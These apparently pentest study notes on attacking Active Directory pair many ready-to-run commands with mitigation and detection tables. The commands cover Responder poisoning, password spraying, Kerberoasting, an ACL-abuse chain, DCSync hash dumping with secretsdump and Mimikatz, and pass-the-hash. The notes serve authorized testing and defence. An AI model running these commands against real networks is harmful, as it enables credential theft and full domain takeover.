

1. Active Directory Enumeration and Exploitation
1.1 Active Directory Overview & Engagement Setup
Active Directory (AD) is a directory service for Windows enterprise environments based on LDAP and X.500. It centralizes management of users, computers, groups, network devices, file shares, group policies, and trusts. AD provides authentication, accounting, and authorization within Windows networks. Microsoft AD holds roughly 43% of the market for enterprise IAM solutions.
1.1.1 Engagement Setup & Scope
Before testing, obtain a scoping document that defines target domains, subnets, and rules of engagement. Common internal assessment setups include:
- Pentest VM in the client's internal network, tunneled back via VPN/SSH
- Physical device plugged into an ethernet port
- Physical presence with a laptop on-site
- Cloud-hosted Linux VM (AWS/Azure) with internal access
- VPN access into the internal network (limits some attacks like LLMNR poisoning)
- Managed workstation or VDI (Citrix) with limited or full internet access
| Data Point | Description |
|---|---|
| AD Users | Valid user accounts to target for password spraying |
| AD Joined Computers | DCs, file servers, SQL servers, web servers, Exchange, database servers |
| Key Services | Kerberos, NetBIOS, LDAP, DNS |
| Vulnerable Hosts/Services | Quick-win footholds: hosts or services that are easy to exploit |
1.2 External Reconnaissance
External recon validates scope, identifies publicly accessible data, and builds target lists before any direct interaction with the target network.
1.2.1 Target Data
Job postings reveal technology stacks (e.g., SharePoint 2013/2016 versions). PDF metadata Author fields expose internal username formats. Breach databases confirm credential reuse. Combine these with tools like linkedin2username and statistically-likely-usernames lists for later password spraying.
| Data Point | Description | Sources |
|---|---|---|
| IP Space / ASN | Netblocks, cloud hosting, DNS records | IANA, ARIN, RIPE, BGP Toolkit (bgp.he.net) |
| Domain Information | Subdomains, publicly exposed services, defense posture | Domaintools, viewdns.info, PTRArchive, ICANN |
| Schema/Username Format | Email naming conventions (first.last, flast, etc.), password policies | Company website, LinkedIn, job postings |
| Data Disclosures | PDF metadata (Author field reveals usernames), intranet links, share names | Google dorks (filetype:pdf, intext:"@domain") |
| Breach Data | Leaked usernames, passwords, hashes | HaveIBeenPwned, Dehashed |
1.2.2 Google Dorks
| Command | Description |
|---|---|
filetype:pdf inurl:domain.com | Exposed PDF documents |
intext:"@domain.com" inurl:domain.com | Email addresses |
filetype:xlsx OR filetype:csv inurl:domain.com | Spreadsheets with potential data |
intitle:"index of" inurl:domain.com | Directory listings |
filetype:xml inurl:domain.com | Configuration files |
site:domain.com filetype:log | Exposed log files |
Methodology
-
dig any target.com host -t mx target.com dnsrecon -d target.com -
nslookup ns1.[domain-short].com -
linkedin2username -c "Company Name" -
sudo python3 dehashed.py -q [domain] -p
1.3 Initial Enumeration of the Domain
Initial enumeration starts from an unauthenticated position on the internal network and focuses on hosts, services, users, and potential footholds.
1.3.1 Passive Host Identification
Passive listening reveals hosts via ARP requests/replies, MDNS broadcasts, and BROWSER protocol traffic without sending any packets.
# Wireshark -- capture ARP, MDNS, BROWSER traffic
sudo -E wireshark
# tcpdump -- lightweight alternative
sudo tcpdump -i [interface]
# Responder in analyze mode (passive, no poisoning)
sudo responder -I [interface] -A1.3.2 Active Host Identification
ICMP sweep to build a host list, then Nmap for service and version detection.
# ICMP sweep
fping -asgq [subnet]
# Service and version detection
sudo nmap -v -A -iL hosts.txt -oA host-enum| Target | Identifying Ports / Indicators |
|---|---|
| Domain Controllers | 53 (DNS), 88 (Kerberos), 389/636 (LDAP/LDAPS), 445 (SMB), 3268/3269 (Global Catalog) |
| Legacy Hosts | Windows Server 2008, IIS 7.5; check for EternalBlue and MS08-067 exposure |
| SMB Relay Targets | SMB signing enabled but not required |
| Remote Access | RDP (3389), WinRM (5985/5986), SSH (22) |
| Databases | MSSQL (1433), MySQL (3306) |
1.3.3 User Enumeration with Kerbrute
Kerbrute enumerates valid accounts via Kerberos pre-authentication. Pre-auth failures do not trigger event ID 4625, so this is stealthier than SMB-based enumeration.
# Compile from source
sudo git clone https://github.com/ropnop/kerbrute.git
cd kerbrute && sudo make all
# Add to PATH
sudo mv dist/kerbrute_linux_amd64 /usr/local/bin/kerbrute
# Enumerate users
kerbrute userenum -d [domain] --dc [dc-ip] jsmith.txt -o [valid-users]Use the jsmith.txt or jsmith2.txt wordlists from the statistically-likely-usernames repo. Generates event ID 4768 (TGT request) only if Kerberos logging is enabled.
1.3.4 Gaining a Foothold via SYSTEM Access
The NT AUTHORITY\SYSTEM account on a domain-joined host can impersonate the computer account, which functions as a domain user. Ways to obtain SYSTEM:
- Remote exploits: MS08-067, EternalBlue, BlueKeep
- Service account abuse with SeImpersonate (Juicy Potato, PrintSpoofer)
- Local privilege escalation flaws
- Local admin + PsExec to launch SYSTEM shell
SYSTEM on a domain-joined host gives you: BloodHound/PowerView enumeration, Kerberoasting/ASREPRoasting, Inveigh hash capture, token impersonation, and ACL attacks.
Methodology
-
sudo tcpdump -i eth0 -w capture.pcap sudo responder -I [interface] -A -
fping -asgq [subnet] sudo nmap -sC -sV -oA initial [subnet] -
nslookup -type=SRV _ldap._tcp.dc._msdcs.DOMAIN.LOCAL -
enum4linux -a -u "" -p "" DC_IP crackmapexec smb DC_IP --users -u '' -p '' -
ldapsearch -x -H ldap://DC_IP -b "DC=domain,DC=local" -
kerbrute userenum -d DOMAIN.LOCAL --dc DC_IP /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
1.4 LLMNR/NBT-NS Poisoning
LLMNR (UDP 5355) and NBT-NS (UDP 137) are fallback name resolution protocols that broadcast queries on the local network when DNS fails. An attacker on the same segment responds to these broadcasts, captures NTLMv2 hashes for offline cracking or relay.
1.4.1 Capture Workflow
When DNS resolution fails, Windows broadcasts LLMNR and then NBT-NS to the local network. A responder such as Responder or Inveigh can answer first and capture the authentication attempt.
1.4.2 Responder (Linux)
NetNTLMv2 hashes are not pass-the-hash material. Crack them offline while Responder runs in a tmux window during other enumeration.
sudo responder -I [interface]
hashcat -m 5600 [hash-file] /usr/share/wordlists/rockyou.txtLogs are stored at /usr/share/responder/logs/ in the format (MODULE)-(HASH_TYPE)-(CLIENT_IP).txt. Use -w for WPAD rogue proxy, -A for analyze-only mode (passive, no poisoning).
1.4.3 Inveigh (Windows)
Windows alternative to Responder. The C# version (InveighZero) provides a semi-interactive console for real-time hash review.
# PowerShell version
Import-Module .\Inveigh.ps1
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
# C# version (InveighZero)
.\Inveigh.exeIn InveighZero, press ESC for the interactive console. Use GET NTLMV2UNIQUE to view captured hashes, GET NTLMV2USERNAMES for usernames and source IPs.
Methodology
-
sudo responder -I [interface] -dwPv -
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt -
Import-Module .\Inveigh.ps1 Invoke-Inveigh -LLMNR Y -NBNS Y -ConsoleOutput Y -FileOutput Y
1.4.4 Remediation
| Mitigation | Details |
|---|---|
| Disable LLMNR | Group Policy: Computer Configuration > Administrative Templates > Network > DNS Client > "Turn OFF Multicast Name Resolution" |
| Disable NBT-NS | Must be done per-host or via startup script GPO. Registry: HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces: set NetbiosOptions to 2 |
| Enable SMB Signing | Prevents NTLM relay attacks by verifying sender/recipient identity |
| Network Segmentation | Isolate hosts that require LLMNR/NBT-NS |
| NIDS/NIPS | Filter LLMNR/NetBIOS traffic, detect spoofing |
Detection
Monitor UDP ports 5355 and 137. Watch event IDs 4697 and 7045. Inject LLMNR requests for non-existent hosts and alert on responses. Monitor registry key HKLM\Software\Policies\Microsoft\Windows NT\DNSClient\EnableMulticast for changes.
1.5 Password Spraying
Test a small set of common passwords against many accounts at once. Get the password policy first to stay under the lockout threshold.
1.5.1 Enumerating the Password Policy
Always obtain the password policy before spraying to avoid account lockouts. Methods vary based on access level.
# Linux (credentialed)
crackmapexec smb [dc-ip] -u [user] -p [password] --pass-pol
# Linux (SMB NULL session)
rpcclient -U "" -N [dc-ip]
rpcclient $> getdompwinfo
enum4linux -P [dc-ip]
enum4linux-ng -P [dc-ip] -oA ilfreight
# Linux (LDAP anonymous bind)
ldapsearch -h [dc-ip] -x -b "DC=[DOMAIN],DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength# Windows
net accounts
Import-Module .\PowerView.ps1
Get-DomainPolicy| Policy Setting | Default Value | Example (INLANEFREIGHT) |
|---|---|---|
| Minimum password length | 7 | 8 |
| Password complexity | Enabled | Enabled |
| Account lockout threshold | 0 (no lockout) | 5 |
| Lockout duration | Not set | 30 minutes |
| Lockout observation window | Not set | 30 minutes |
| Password history | 24 | 24 |
| Max password age | 42 days | Not set (never expires) |
1.5.2 Building Target User Lists
The --users flag in CrackMapExec shows badpwdcount per user. Filter out accounts with badpwdcount > 0 before spraying to avoid lockouts.
# SMB NULL Session
enum4linux -U [dc-ip] | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
rpcclient -U "" -N [dc-ip] -c "enumdomusers"
crackmapexec smb [dc-ip] --users
# LDAP Anonymous Bind
ldapsearch -h [dc-ip] -x -b "DC=[DOMAIN],DC=LOCAL" -s sub "(&(objectclass=user))" | grep sAMAccountName: | cut -f2 -d" "
./windapsearch.py --dc-ip [dc-ip] -u "" -U
# Kerbrute (no credentials needed)
kerbrute userenum -d [domain] --dc [dc-ip] /opt/jsmith.txt
# Credentialed
sudo crackmapexec smb [dc-ip] -u [user] -p [password] --users1.5.3 Password Spraying from Linux
Use --local-auth when spraying local admin hashes to prevent domain account lockouts.
# Bash one-liner with rpcclient
for u in $(cat [valid-users].txt); do rpcclient -U "$u%Welcome1" -c "getusername;quit" [dc-ip] | grep Authority; done
# Kerbrute
kerbrute passwordspray -d [domain] --dc [dc-ip] [valid-users].txt Welcome1
# CrackMapExec
sudo crackmapexec smb [dc-ip] -u [valid-users].txt -p [password] | grep +
# Validate credentials
sudo crackmapexec smb [dc-ip] -u [user] -p [password]
# Local admin password reuse
sudo crackmapexec smb --local-auth [subnet] -u administrator -H [ntlm-hash] | grep +1.5.4 Password Spraying from Windows
DomainPasswordSpray auto-generates a user list from AD, queries the password policy, and removes users within 1 attempt of lockout.
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinueMethodology
-
crackmapexec smb DC_IP -u user -p pass --pass-pol rpcclient -U user DC_IP -c 'getdompwinfo' -
kerbrute userenum -d DOMAIN --dc DC_IP usernames.txt -o [valid-users].txt -
crackmapexec smb DC_IP -u [valid-users].txt -p 'Season2024!' --continue-on-success kerbrute passwordspray -d DOMAIN --dc DC_IP [valid-users].txt 'Season2024!' -
Import-Module .\DomainPasswordSpray.ps1 Invoke-DomainPasswordSpray -Password 'Season2024!' -OutFile spray_results.txt -ErrorAction SilentlyContinue
1.5.5 Mitigation & Detection
| Mitigation | Details |
|---|---|
| MFA | Implement on all external portals and sensitive internal services |
| Restrict Access | Apply least privilege and limit application access to users who need it |
| Separate Admin Accounts | Privileged users should use dedicated admin accounts for administrative tasks |
| Password Hygiene | Use password filters to block common words, company name, seasons, months |
| LAPS | Prevents local admin password reuse across hosts |
Detection
Monitor Event ID 4625 (logon failure) and 4771 (Kerberos pre-auth failed) for high-frequency patterns. Enable Kerberos logging via Group Policy.
1.6 Enumerating Security Controls
Check defensive controls before running tools, including AV products, AppLocker or WDAC policies, PowerShell language mode, and LAPS deployment.
# Windows Defender status
Get-MpComputerStatus
# AppLocker rules
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
# PowerShell language mode
$ExecutionContext.SessionState.LanguageMode
# LAPS enumeration
Find-LAPSDelegatedGroups
Find-AdmPwdExtendedRights
Get-LAPSComputersMethodology
-
Get-MpComputerStatus | Select-Object AntivirusEnabled, RealTimeProtectionEnabled, IoavProtectionEnabled -
Get-AppLockerPolicy -Effective | Select -ExpandProperty RuleCollections -
$ExecutionContext.SessionState.LanguageMode -
Find-AdmPwdExtendedRights -Identity OUName
1.7 Credentialed Enumeration from Linux
With valid domain credentials from a Linux attack host, enumerate AD remotely over SMB, LDAP, and RPC.
1.7.1 CrackMapExec
# Domain users with badpwdcount
sudo crackmapexec smb [dc-ip] -u [user] -p [password] --users
# Domain groups
sudo crackmapexec smb [dc-ip] -u [user] -p [password] --groups
# Logged-on users (hunt for admin sessions)
sudo crackmapexec smb [target-ip] -u [user] -p [password] --loggedon-users
# Share enumeration
sudo crackmapexec smb [dc-ip] -u [user] -p [password] --shares
# Spider shares for files
sudo crackmapexec smb [dc-ip] -u [user] -p [password] -M spider_plus --share '[share-name]'1.7.2 SMBMap
# Check share access
smbmap -u [user] -p [password] -d [domain] -H [dc-ip]
# Recursive directory listing
smbmap -u [user] -p [password] -d [domain] -H [dc-ip] -R '[share-name]' --dir-only1.7.3 rpcclient
The domain SID (e.g., S-1-5-21-3842939050-3880317879-2865463114) combined with a RID (e.g., 0x457 = 1111 decimal) creates a unique object SID. The built-in Administrator always has RID 500 (0x1f4).
# Connect (authenticated or NULL session)
rpcclient -U "" -N [dc-ip]
# Enumerate all domain users
rpcclient $> enumdomusers
# Query specific user by RID
rpcclient $> queryuser 0x457
# Domain info
rpcclient $> querydominfo1.7.4 Impacket Toolkit
psexec.py uploads a service binary to ADMIN$ and runs it through SCM, which returns a SYSTEM shell. wmiexec.py executes through WMI as the authenticated user and generates fewer logs, but it spawns a new cmd.exe for each command (Event ID 4688).
# PsExec -- get SYSTEM shell (needs local admin creds)
psexec.py [domain]/[user]:'[password]'@[target-ip]
# WMI Exec -- semi-interactive shell as the authenticated user (stealthier)
wmiexec.py [domain]/[user]:'[password]'@[dc-ip]1.7.5 Windapsearch
LDAP-based enumeration of domain users, groups, computers, and privileged accounts.
# Domain Admins
python3 windapsearch.py --dc-ip [dc-ip] -u [user]@[domain] -p [password] --da
# Privileged users
python3 windapsearch.py --dc-ip [dc-ip] -u [user]@[domain] -p [password] --admin-objects
# Users with SPNs (Kerberoastable)
python3 windapsearch.py --dc-ip [dc-ip] -u [user]@[domain] -p [password] --user-spns1.7.6 BloodHound.py
sudo bloodhound-python -u [user] -p [password] -ns [dc-ip] -d [domain] -c allMethodology
-
crackmapexec smb DC_IP -u user -p pass --users crackmapexec smb DC_IP -u user -p pass --shares crackmapexec smb DC_IP -u user -p pass --loggedon-users -
smbmap -u user -p pass -d DOMAIN -H DC_IP -R -
rpcclient -U 'DOMAIN/user%pass' DC_IP -c 'enumdomusers;enumdomgroups' -
bloodhound-python -u user -p pass -d DOMAIN.LOCAL -ns DC_IP -c all -
python3 windapsearch.py -d DOMAIN.LOCAL --dc-ip DC_IP -u user@DOMAIN.LOCAL -p pass --da --privileged-users
1.8 Credentialed Enumeration from Windows
From a domain-joined Windows host, PowerShell and .NET tools enumerate AD objects, ACLs, group memberships, and attack paths.
1.8.1 ActiveDirectory PowerShell Module
# Load module
Import-Module ActiveDirectory
Get-Module
# Domain info
Get-ADDomain
# User search with filters
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
# Trust relationships
Get-ADTrust -Filter *
# Group enumeration
Get-ADGroup -Filter * | select name
Get-ADGroup -Identity "Backup Operators" -Properties *
# Group membership
Get-ADGroupMember -Identity "Domain Admins" -Recursive1.8.2 PowerView
Import-Module .\PowerView.ps1
# Domain user info
Get-DomainUser -Identity [target-user] -Domain [domain] | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset,lastlogontimestamp,accountexpires,admincount,userprincipalname,serviceprincipalname,useraccountcontrol
# Recursive group membership
Get-DomainGroupMember -Identity "Domain Admins" -Recurse
# Trust enumeration
Get-DomainTrustMapping
# Test local admin access
Test-AdminAccess -ComputerName [target-host]
# Find users with SPNs (Kerberoastable)
Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName1.8.3 Snaffler (Credential Hunting in Shares)
Snaffler searches accessible file shares for sensitive data: credentials, configuration files, private keys. Findings are classified by severity.
# Run against domain
Snaffler.exe -s -d [domain] -o snaffler.log -v data1.8.4 SharpHound / BloodHound
# Collect data
.\SharpHound.exe -c All --zipfilename ILFREIGHT
# Upload ZIP to BloodHound GUI
# Key queries: Shortest Path to Domain Admin, Find Kerberoastable Users, etc.Methodology
-
Get-ADUser -Filter * -Properties * | select SamAccountName,Description,MemberOf Get-ADGroup -Filter * | select Name,GroupScope,GroupCategory Get-ADTrust -Filter * -
Import-Module .\PowerView.ps1 Get-DomainUser | select samaccountname,description,memberof Get-DomainGroup -AdminCount | select name Find-LocalAdminAccess -
.\SharpHound.exe -c All --zipfilename bh_data.zip -
.\Snaffler.exe -s -o snaffler_output.txt
1.9 Living Off the Land
Built-in Windows commands for enumeration when third-party tools are unavailable or blocked.
1.9.1 Basic Host & Network Recon
# Host info
hostname
systeminfo
set
echo %USERDOMAIN%
# Network
ipconfig /all
arp -a
route print
# Logged-in users
qwinsta1.9.2 PowerShell
# Execution policy
Get-ExecutionPolicy -List
# Defender status (from CMD)
sc query windefend
# Defender status (PowerShell)
Get-MpComputerStatus
# Firewall
netsh advfirewall show allprofiles
# Downgrade to PowerShell v2 (bypasses some logging)
powershell.exe -version 21.9.3 WMI
# Patch level
wmic qfe get Caption,Description,HotFixID,InstalledOn
# Installed software
wmic product get name
# Running services
wmic service list brief | findstr "Running"1.9.4 Net Commands
| Command | Purpose |
|---|---|
net accounts | Password policy |
net user | List local users |
net user /domain | List domain users |
net user username /domain | Detailed user info |
net group /domain | List domain groups |
net group "Domain Admins" /domain | Domain Admin members |
net localgroup | List local groups |
net localgroup Administrators | Local admin members |
net share | List shares |
net view /domain | List domain resources |
If net.exe is blocked, try net1.exe: it is the actual binary that net.exe calls internally.
1.9.5 Dsquery
# All users
dsquery user
# All computers
dsquery computer
# Wildcard search
dsquery * "CN=Users,DC=[DOMAIN],DC=LOCAL"
# Users with PASSWD_NOTREQD set (UAC bit 544)
dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))" -attr distinguishedName userAccountControl
# Domain Controllers
dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)" -limit 5 -attr sAMAccountName| LDAP OID Match String | Meaning |
|---|---|
1.2.840.113556.1.4.803 | LDAP_MATCHING_RULE_BIT_AND (all bits match) |
1.2.840.113556.1.4.804 | LDAP_MATCHING_RULE_BIT_OR (any bit matches) |
1.2.840.113556.1.4.1941 | LDAP_MATCHING_RULE_IN_CHAIN (recursive group membership) |
Methodology
-
net user /domain net group "Domain Admins" /domain net accounts /domain -
dsquery user -name *admin* -limit 0 dsquery group -name *admin* dsquery computer -stalepwd 90 -
wmic computersystem get domain wmic useraccount list /format:list -
nltest /dclist:DOMAIN nslookup -type=SRV _ldap._tcp.DOMAIN
1.10 Kerberoasting
Kerberoasting extracts TGS tickets encrypted with a service account's NTLM hash, then cracks them offline. Any authenticated domain user can request these tickets.
1.10.1 Overview
Targets SPNs registered to domain user accounts (not machine accounts). The TGS ticket is encrypted with the service account's NTLM hash. Service accounts frequently have weak passwords and elevated privileges.
1.10.2 Kerberoasting from Linux
# List accounts with SPNs
GetUserSPNs.py -dc-ip [dc-ip] [domain]/[user]
# Request all TGS tickets
GetUserSPNs.py -dc-ip [dc-ip] [domain]/[user] -request
# Request single ticket
GetUserSPNs.py -dc-ip [dc-ip] [domain]/[user] -request-user [spn-user]
# Save to file
GetUserSPNs.py -dc-ip [dc-ip] [domain]/[user] -request-user [spn-user] -outputfile [tgs-file]
# Crack (RC4 = mode 13100, AES = mode 19700)
hashcat -m 13100 [tgs-file] /usr/share/wordlists/rockyou.txt
# Validate cracked credentials
sudo crackmapexec smb [dc-ip] -u [spn-user] -p [cracked-password]1.10.3 Kerberoasting from Windows
# Semi-manual: enumerate SPNs
setspn.exe -Q */*
# PowerView: extract tickets
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\[output].csv -NoTypeInformation
# Rubeus: all Kerberoastable accounts with stats
.\Rubeus.exe kerberoast /stats
# Rubeus: request all tickets (nowrap for easy copy)
.\Rubeus.exe kerberoast /nowrap
# Rubeus: force RC4 downgrade for AES-enabled accounts
.\Rubeus.exe kerberoast /tgtdeleg /nowrap
# Mimikatz: extract tickets from memory
base64 /out:true
kerberos::list /export1.10.4 Encryption Type Considerations
Accounts with AES encryption enabled produce type 17/18 hashes (Hashcat mode 19700), which are significantly slower to crack. The msDS-SupportedEncryptionTypes attribute controls this:
| Value | Encryption Types |
|---|---|
| 0 | RC4_HMAC_MD5 (default if not set) |
| 23 | RC4_HMAC_MD5 |
| 24 | AES128 + AES256 |
| 0x18 (decimal 24) | AES128_CTS_HMAC_SHA1_96 + AES256_CTS_HMAC_SHA1_96 |
Use /tgtdeleg in Rubeus to force RC4 by requesting a TGS using the current user's TGT delegation. This only works if the target account does not have AES-only enforcement.
# Check supported encryption types
Get-DomainUser -Identity [spn-user] -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypesMethodology
-
impacket-GetUserSPNs -dc-ip DC_IP DOMAIN/user:pass -request -outputfile kerberoast.txt -
.\Rubeus.exe kerberoast /outfile:kerberoast.txt /format:hashcat Get-DomainUser -SPN | select samaccountname,serviceprincipalname -
hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt
1.10.5 Mitigation & Detection
MITRE ATT&CK: T1558.003; Steal or Forge Kerberos Tickets: Kerberoasting
| Mitigation | Details |
|---|---|
| Strong service account passwords | 25+ character, randomly generated passwords |
| Group Managed Service Accounts (gMSA) | AD manages 120-character passwords and rotates them every 30 days, which removes practical Kerberoasting exposure |
| AES encryption only | Set msDS-SupportedEncryptionTypes to enforce AES; much slower to crack |
| Audit SPNs regularly | Remove unnecessary SPNs from user accounts |
| Limit service account privileges | Avoid Domain Admin for service accounts |
Detection
Monitor Event ID 4769 (Kerberos Service Ticket Operations). Watch for RC4 TGS requests when accounts support AES. High volume of TGS requests from a single user is anomalous.
1.11 ACL/ACE Abuse
AD objects are protected by DACLs composed of individual ACEs. Dangerous ACEs, such as GenericAll, WriteDACL, or ForceChangePassword granted to unprivileged groups, create attack paths that bypass traditional credential theft.

1.11.1 ACL Concepts
Every AD object has a security descriptor containing:
- DACL (Discretionary Access Control List): Defines who has access and what operations they can perform
- SACL (System Access Control List): Defines what operations should be audited/logged

DACLs contain Access Control Entries (ACEs) of three types:
- Access Denied ACE: Explicitly denies access
- Access Allowed ACE: Explicitly grants access
- System Audit ACE: Generates audit log entries
| Permission | What It Allows |
|---|---|
| ForceChangePassword | Reset a user's password without knowing the current one |
| GenericAll | Full control: add members, reset passwords, Kerberoast by setting an SPN, etc. |
| GenericWrite | Write to any non-protected attribute (e.g., add SPN for Kerberoasting, modify logon script) |
| WriteOwner | Change object owner to attacker, then grant full control |
| WriteDACL | Modify the object's DACL and grant yourself any permission |
| AllExtendedRights | ForceChangePassword + ability to read LAPS passwords |
| AddSelf | Add yourself to a group |
1.11.2 ACL Enumeration
# PowerView: find interesting ACLs
Find-InterestingDomainAcl
# Check ACLs for specific user
$sid = Convert-NameToSid [user]
Get-DomainObjectACL -Identity * -ResolveGUIDs | ? {$_.SecurityIdentifier -eq $sid}
# Iterate over all users
foreach($line in [System.IO.File]::ReadLines("C:\Users\[user]\Desktop\ad_users.txt")) {
get-acl "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match '[DOMAIN]\\[user]'}
}
# BloodHound: use "Shortest Paths to Domain Admins" or "Find Dangerous Rights"1.11.3 ACL Abuse Attack Chain Example
wley → ForceChangePassword on damundsen → GenericWrite on Help Desk Level 1 group → nested into Information Technology → GenericAll on adunn → DCSync
# Step 1: Create credential object for [user]
$SecPassword = ConvertTo-SecureString '[password]' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('[DOMAIN]\[user]', $SecPassword)
# Step 2: Force-change [user2]'s password
$damundsenPassword = ConvertTo-SecureString '[new-password]' -AsPlainText -Force
Set-DomainUserPassword -Identity [user2] -AccountPassword $damundsenPassword -Credential $Cred -Verbose
# Step 3: Create credential for [user2], add to Help Desk Level 1
$SecPassword2 = ConvertTo-SecureString '[new-password]' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('[DOMAIN]\[user2]', $SecPassword2)
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members '[user2]' -Credential $Cred2 -Verbose
# Step 4: Targeted Kerberoasting -- set fake SPN on [target-user]
Set-DomainObject -Credential $Cred2 -Identity [target-user] -SET @{serviceprincipalname='[fake-spn]'} -Verbose
# Step 5: Kerberoast [target-user]
.\Rubeus.exe kerberoast /user:[target-user] /nowrap
# Step 6: Crack hash, use [target-user] for DCSync1.11.4 Cleanup
# Remove fake SPN
Set-DomainObject -Credential $Cred2 -Identity [target-user] -Clear serviceprincipalname -Verbose
# Remove from group
Remove-DomainGroupMember -Identity 'Help Desk Level 1' -Members '[user2]' -Credential $Cred2 -Verbose
# Verify
Get-DomainGroupMember -Identity 'Help Desk Level 1' | Select MemberNameMethodology
-
Find-InterestingDomainAcl -ResolveGUIDs | select IdentityReferenceName,ActiveDirectoryRights,ObjectDN -
$cred = ConvertTo-SecureString 'NewPass123!' -AsPlainText -Force Set-DomainUserPassword -Identity target -AccountPassword $cred -
Set-DomainObject -Identity target -SET @{serviceprincipalname='fake/spn'} .\Rubeus.exe kerberoast /user:target /outfile:hash.txt -
Add-DomainObjectAcl -TargetIdentity "DC=domain,DC=local" -PrincipalIdentity user -Rights DCSync
1.11.5 Remediation & Detection
1.12 DCSync Attack
DCSync uses directory replication privileges to impersonate a DC and pull password hashes directly from AD, including the KRBTGT hash for Golden Tickets.

1.12.1 Replication Privileges
An account with these replication rights can request NTDS.DIT data as if it were a DC:
- DS-Replication-Get-Changes
- DS-Replication-Get-Changes-All
- DS-Replication-Get-Changes-In-Filtered-Set (optional, for PAS/RODC)
Domain Admins, Enterprise Admins, and the domain's Administrators group have these rights by default.
1.12.2 DCSync from Linux (secretsdump.py)
# Full dump
secretsdump.py -outputfile [domain-short]_hashes -just-dc [DOMAIN]/[user]@[dc-ip]
# NTLM hashes only
secretsdump.py -just-dc-ntlm [DOMAIN]/[user]@[dc-ip]
# Single user
secretsdump.py -just-dc-user [DOMAIN]/administrator [DOMAIN]/[user]@[dc-ip]Add -pwd-last-set, -history, or -user-status for additional context. Users with reversible encryption (userAccountControl bit 128) will have cleartext passwords in the .cleartext output file.
# Find users with reversible encryption
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'}1.12.3 DCSync from Windows (Mimikatz)
# Verify replication rights
$sid = Convert-NameToSid [target-user]
Get-DomainObjectACL "DC=[DOMAIN],DC=LOCAL" -ResolveGUIDs | ? {$_.SecurityIdentifier -eq $sid}
# Run Mimikatz (with domain user context if needed)
runas /netonly /user:[DOMAIN]\[user] powershell
# In Mimikatz:
lsadump::dcsync /domain:[domain] /user:[DOMAIN]\administratorMethodology
-
impacket-secretsdump -just-dc-ntlm DOMAIN/user:pass@DC_IP impacket-secretsdump -just-dc-user administrator DOMAIN/user:pass@DC_IP -
mimikatz# lsadump::dcsync /domain:DOMAIN.LOCAL /user:administrator -
crackmapexec smb DC_IP -u administrator -H NTLM_HASH impacket-psexec -hashes :NTLM_HASH administrator@DC_IP
1.12.4 Remediation
1.13 Privileged Access
Test obtained credentials against remote access services. RDP, WinRM, and SQL Server each require different group memberships.
1.13.1 Remote Desktop (RDP)
# Enumerate Remote Desktop Users group
Get-ADGroupMember -Identity "Remote Desktop Users"
# BloodHound: CanRDP edge
# Cypher: MATCH p=(u)-[:CanRDP]->(c) RETURN p1.13.2 WinRM
# Enumerate Remote Management Users
Get-ADGroupMember -Identity "Remote Management Users"
# BloodHound: CanPSRemote edge
# Cypher: MATCH p=(u)-[:CanPSRemote]->(c) RETURN p
# Connect from Windows
$password = ConvertTo-SecureString "[password]" -AsPlainText -Force
$cred = new-object System.Management.Automation.PSCredential("[DOMAIN]\[user]", $password)
Enter-PSSession -ComputerName [target-host] -Credential $cred
# Connect from Linux
evil-winrm -i [target-ip] -u [user] -p [password]1.13.3 SQL Server Admin
# BloodHound: SQLAdmin edge
# PowerUpSQL enumeration
Get-SQLInstanceDomain
Get-SQLQuery -Verbose -Instance "[sql-ip],1433" -username "[domain-short]\[user2]" -password "[password]" -query 'Select @@version'
# Impacket mssqlclient.py
mssqlclient.py [DOMAIN]/[USER]@[sql-ip] -windows-auth
# Enable xp_cmdshell
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoamiMethodology
-
Get-ADGroupMember "Remote Desktop Users" Get-ADGroupMember "Remote Management Users" -
crackmapexec rdp TARGETS -u user -p pass -
crackmapexec winrm TARGETS -u user -p pass -
crackmapexec mssql TARGETS -u user -p pass
1.14 Kerberos Double Hop Problem
